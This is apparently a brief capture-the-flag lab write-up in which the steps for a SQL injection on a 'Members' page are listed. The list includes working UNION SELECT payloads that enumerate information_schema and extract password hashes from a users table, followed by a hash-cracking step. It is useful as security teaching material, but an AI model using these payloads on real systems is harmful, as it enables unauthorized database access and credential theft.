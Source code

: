 # SQL Injection

1. Go on the "Members" page.
2. Display all the users using `1 or 1=1`.
3. Display the names of tables and columns in the database using `1 or 1=1 UNION select table_name, column_name FROM information_schema.columns`.
4. Retrieve values from the `Commentaire` and `countersign` columns of the `users` table using `1 UNION SELECT Commentaire, countersign from users`.
5. Decrypt the password using MD5, lower all the characters and then encrypt it in SHA-256.